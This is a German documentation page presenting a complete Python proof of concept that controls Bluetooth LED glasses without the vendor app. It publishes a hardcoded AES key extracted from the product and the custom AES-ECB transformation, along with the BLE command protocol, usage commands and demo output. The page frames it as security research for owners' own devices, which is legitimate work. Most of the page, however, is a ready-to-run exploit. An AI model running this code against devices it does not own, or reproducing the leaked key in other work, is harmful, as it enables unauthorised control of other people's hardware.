

# LED Brille - Proof of Concept

## Überblick

Der PoC demonstriert die vollständige Kontrolle über die LED Brille ohne die Original-App.



## Vollständiger PoC-Code

```python
#!/usr/bin/env python3
"""
LED Glasses Control PoC

Demonstrates:
- Hardcoded AES key extraction
- Column-major transformation bypass
- Full device control without original app

DISCLAIMER: For authorized testing on own devices only!
"""

import sys
import time
import argparse
from Crypto.Cipher import AES
from blatann import BleDevice
from blatann.utils import setup_logger

# ============================================================
# EXTRACTED SECRETS
# ============================================================

AES_KEY = bytes.fromhex("34522a5b7a6e492c08090a9d8d2a23f8")

# ============================================================
# BLE UUIDs
# ============================================================

SERVICE_UUID = "0000fff0-0000-1000-8000-00805f9b34fb"
CHAR_CONTROL = "d44bc439-abfd-45a2-b575-925416129600"
CHAR_DATA = "d44bc439-abfd-45a2-b575-92541612960a"
CHAR_NOTIFY = "d44bc439-abfd-45a2-b575-925416129601"

# ============================================================
# DISPLAY MODES
# ============================================================

MODES = {
    'static': (1, 0),
    'scroll-left': (2, 0),
    'scroll-right': (2, 1),
    'scroll-up': (2, 2),
    'scroll-down': (2, 3),
}

# ============================================================
# ENCRYPTION
# ============================================================

class ColumnMajorAES:
    """AES encryption with column-major byte transformation"""
    
    def __init__(self, key):
        self.key = key
    
    def _transform(self, data):
        """Column-major transformation (4x4 matrix transposition)"""
        if len(data) != 16:
            raise ValueError("Data must be 16 bytes")
        result = bytearray(16)
        for i in range(16):
            row = i % 4
            col = i // 4
            result[col + row * 4] = data[i]
        return bytes(result)
    
    def encrypt(self, plaintext):
        """Encrypt: transform → AES-ECB → transform"""
        padded = plaintext.ljust(16, b'\x00')[:16]
        transformed = self._transform(padded)
        cipher = AES.new(self.key, AES.MODE_ECB)
        encrypted = cipher.encrypt(transformed)
        return self._transform(encrypted)
    
    def decrypt(self, ciphertext):
        """Decrypt: transform → AES-ECB → transform"""
        transformed = self._transform(ciphertext)
        cipher = AES.new(self.key, AES.MODE_ECB)
        decrypted = cipher.decrypt(transformed)
        return self._transform(decrypted)

# ============================================================
# FONT DATA (8-row LED matrix)
# ============================================================

FONT = {
    'A': bytes([0x7E, 0x09, 0x09, 0x09, 0x7E, 0x00]),
    'B': bytes([0x7F, 0x49, 0x49, 0x49, 0x36, 0x00]),
    'C': bytes([0x3E, 0x41, 0x41, 0x41, 0x22, 0x00]),
    'D': bytes([0x7F, 0x41, 0x41, 0x41, 0x3E, 0x00]),
    'E': bytes([0x7F, 0x49, 0x49, 0x49, 0x41, 0x00]),
    'F': bytes([0x7F, 0x09, 0x09, 0x09, 0x01, 0x00]),
    'G': bytes([0x3E, 0x41, 0x49, 0x49, 0x7A, 0x00]),
    'H': bytes([0x7F, 0x08, 0x08, 0x08, 0x7F, 0x00]),
    'I': bytes([0x00, 0x41, 0x7F, 0x41, 0x00, 0x00]),
    'J': bytes([0x20, 0x40, 0x41, 0x3F, 0x01, 0x00]),
    'K': bytes([0x7F, 0x08, 0x14, 0x22, 0x41, 0x00]),
    'L': bytes([0x7F, 0x40, 0x40, 0x40, 0x40, 0x00]),
    'M': bytes([0x7F, 0x02, 0x0C, 0x02, 0x7F, 0x00]),
    'N': bytes([0x7F, 0x04, 0x08, 0x10, 0x7F, 0x00]),
    'O': bytes([0x3E, 0x41, 0x41, 0x41, 0x3E, 0x00]),
    'P': bytes([0x7F, 0x09, 0x09, 0x09, 0x06, 0x00]),
    'Q': bytes([0x3E, 0x41, 0x51, 0x21, 0x5E, 0x00]),
    'R': bytes([0x7F, 0x09, 0x19, 0x29, 0x46, 0x00]),
    'S': bytes([0x46, 0x49, 0x49, 0x49, 0x31, 0x00]),
    'T': bytes([0x01, 0x01, 0x7F, 0x01, 0x01, 0x00]),
    'U': bytes([0x3F, 0x40, 0x40, 0x40, 0x3F, 0x00]),
    'V': bytes([0x1F, 0x20, 0x40, 0x20, 0x1F, 0x00]),
    'W': bytes([0x3F, 0x40, 0x38, 0x40, 0x3F, 0x00]),
    'X': bytes([0x63, 0x14, 0x08, 0x14, 0x63, 0x00]),
    'Y': bytes([0x07, 0x08, 0x70, 0x08, 0x07, 0x00]),
    'Z': bytes([0x61, 0x51, 0x49, 0x45, 0x43, 0x00]),
    '0': bytes([0x3E, 0x51, 0x49, 0x45, 0x3E, 0x00]),
    '1': bytes([0x00, 0x42, 0x7F, 0x40, 0x00, 0x00]),
    '2': bytes([0x42, 0x61, 0x51, 0x49, 0x46, 0x00]),
    '3': bytes([0x21, 0x41, 0x45, 0x4B, 0x31, 0x00]),
    '4': bytes([0x18, 0x14, 0x12, 0x7F, 0x10, 0x00]),
    '5': bytes([0x27, 0x45, 0x45, 0x45, 0x39, 0x00]),
    '6': bytes([0x3C, 0x4A, 0x49, 0x49, 0x30, 0x00]),
    '7': bytes([0x01, 0x71, 0x09, 0x05, 0x03, 0x00]),
    '8': bytes([0x36, 0x49, 0x49, 0x49, 0x36, 0x00]),
    '9': bytes([0x06, 0x49, 0x49, 0x29, 0x1E, 0x00]),
    ' ': bytes([0x00, 0x00, 0x00, 0x00, 0x00, 0x00]),
    '!': bytes([0x00, 0x00, 0x5F, 0x00, 0x00, 0x00]),
    '?': bytes([0x02, 0x01, 0x51, 0x09, 0x06, 0x00]),
    '.': bytes([0x00, 0x60, 0x60, 0x00, 0x00, 0x00]),
    '-': bytes([0x08, 0x08, 0x08, 0x08, 0x08, 0x00]),
    ':': bytes([0x00, 0x36, 0x36, 0x00, 0x00, 0x00]),
}

def encode_text(text):
    """Encode text to LED matrix bitmap"""
    result = bytearray()
    for char in text.upper():
        if char in FONT:
            result.extend(FONT[char])
        else:
            result.extend(FONT[' '])
    return bytes(result)

# ============================================================
# COMMAND BUILDERS
# ============================================================

def build_atats(data_length):
    """ATATS - Start text transmission"""
    cmd = bytearray(16)
    cmd[0] = 7  # Length
    cmd[1:6] = b'ATATS'
    cmd[6] = 1  # Parameter
    cmd[7] = (data_length >> 8) & 0xFF  # High byte
    cmd[8] = data_length & 0xFF         # Low byte
    return bytes(cmd)

def build_atcp():
    """ATCP - Complete transmission"""
    cmd = bytearray(16)
    cmd[0] = 5  # Length
    cmd[1:5] = b'ATCP'
    return bytes(cmd)

def build_mode(mode, direction):
    """MODE - Set display mode"""
    cmd = bytearray(16)
    cmd[0] = 6  # Length
    cmd[1:5] = b'MODE'
    cmd[5] = mode
    cmd[6] = direction
    return bytes(cmd)

def build_data_packet(data, offset):
    """Build data packet for transmission"""
    chunk_size = min(15, len(data) - offset)
    cmd = bytearray(16)
    cmd[0] = chunk_size
    cmd[1:1+chunk_size] = data[offset:offset+chunk_size]
    return bytes(cmd)

# ============================================================
# MAIN CONTROLLER
# ============================================================

class LEDGlassesController:
    def __init__(self, serial_port="/dev/ttyACM0"):
        self.serial_port = serial_port
        self.cipher = ColumnMajorAES(AES_KEY)
        self.ble_device = None
        self.peer = None
        self.ctrl_char = None
        self.data_char = None
    
    def connect(self, target_name="GLASSES"):
        """Connect to LED glasses"""
        setup_logger(level="WARNING")
        
        self.ble_device = BleDevice(self.serial_port)
        self.ble_device.configure()
        self.ble_device.open()
        
        print(f"🔍 Scanning for {target_name}...")
        
        target_addr = None
        def on_scan(sender, report):
            nonlocal target_addr
            name = report.advertise_data.local_name or ""
            if target_name.upper() in name.upper():
                target_addr = report.peer_address
                print(f"✓ Found: {name} @ {target_addr}")
        
        self.ble_device.scanner.on_scan_received.register(on_scan)
        self.ble_device.scanner.start_scan().wait(timeout=10)
        
        if not target_addr:
            raise Exception(f"Device '{target_name}' not found")
        
        print(f"🔗 Connecting to {target_addr}...")
        self.peer = self.ble_device.connect(target_addr).wait(timeout=10)
        print("✓ Connected!")
        
        print("📋 Discovering services...")
        self.peer.discover_services().wait(timeout=30)
        
        # Find characteristics
        self.ctrl_char = self.peer.database.find_characteristic(CHAR_CONTROL)
        self.data_char = self.peer.database.find_characteristic(CHAR_DATA)
        
        if not self.ctrl_char or not self.data_char:
            raise Exception("Required characteristics not found")
        
        print("✓ Ready!")
        return self
    
    def _send(self, char, data):
        """Encrypt and send data"""
        encrypted = self.cipher.encrypt(data)
        char.write(encrypted).wait(timeout=5)
        time.sleep(0.05)
    
    def send_text(self, text, mode='static'):
        """Send text to display"""
        print(f"📤 Sending: '{text}' (mode: {mode})")
        
        # Encode text to bitmap
        encoded = encode_text(text)
        data_size = len(encoded)
        
        # 1. ATATS - Start transmission
        self._send(self.ctrl_char, build_atats(data_size))
        time.sleep(0.3)
        
        # 2. Send data packets
        offset = 0
        while offset < data_size:
            packet = build_data_packet(encoded, offset)
            self._send(self.data_char, packet)
            offset += 15
        
        # 3. ATCP - Complete
        self._send(self.ctrl_char, build_atcp())
        time.sleep(0.3)
        
        # 4. MODE - Set display mode
        mode_val, direction = MODES.get(mode, (1, 0))
        self._send(self.ctrl_char, build_mode(mode_val, direction))
        
        print("✓ Done!")
    
    def disconnect(self):
        """Disconnect from device"""
        if self.peer:
            self.peer.disconnect().wait()
        if self.ble_device:
            self.ble_device.close()
        print("👋 Disconnected")

# ============================================================
# CLI INTERFACE
# ============================================================

def main():
    parser = argparse.ArgumentParser(description="LED Glasses PoC")
    parser.add_argument("--text", "-t", default="HELLO", help="Text to display")
    parser.add_argument("--mode", "-m", default="static", 
                        choices=MODES.keys(), help="Display mode")
    parser.add_argument("--device", "-d", default="GLASSES", 
                        help="Device name to search for")
    parser.add_argument("--port", "-p", default="/dev/ttyACM0",
                        help="Serial port for nRF52840")
    args = parser.parse_args()
    
    print("=" * 50)
    print("LED Glasses PoC - Security Research Demo")
    print("=" * 50)
    
    controller = LEDGlassesController(args.port)
    
    try:
        controller.connect(args.device)
        controller.send_text(args.text, args.mode)
    except Exception as e:
        print(f"❌ Error: {e}")
        sys.exit(1)
    finally:
        controller.disconnect()

if __name__ == "__main__":
    main()
```

## Verwendung

```bash
# Einfacher Text
python3 glasses_poc.py --text "HELLO"

# Mit Scroll-Effekt
python3 glasses_poc.py --text "SECURITY TEST" --mode scroll-left

# Spezifisches Gerät
python3 glasses_poc.py --device "GLASSES-12B008" --text "POC"
```

## Demo-Ausgabe

```
==================================================
LED Glasses PoC - Security Research Demo
==================================================
🔍 Scanning for GLASSES...
✓ Found: GLASSES-12B008 @ XX:XX:XX:XX:XX:XX
🔗 Connecting to XX:XX:XX:XX:XX:XX...
✓ Connected!
📋 Discovering services...
✓ Ready!
📤 Sending: 'HELLO' (mode: static)
✓ Done!
👋 Disconnected
```

## Validierung

| Test | Ergebnis |
|------|----------|
| Verbindung ohne App | ✓ Erfolgreich |
| Text-Anzeige | ✓ Identisch zur App |
| Alle Modi | ✓ Funktionieren |
| Verschiedene Texte | ✓ Korrekt angezeigt |

---

:::tip Download
Den vollständigen PoC-Code findest du im [Downloads-Bereich](/docs/downloads/scripts).
:::

:::warning Hinweis
Dieser PoC demonstriert die Schwachstelle zu **Bildungszwecken**. Verwende ihn nur auf eigenen Geräten!
:::
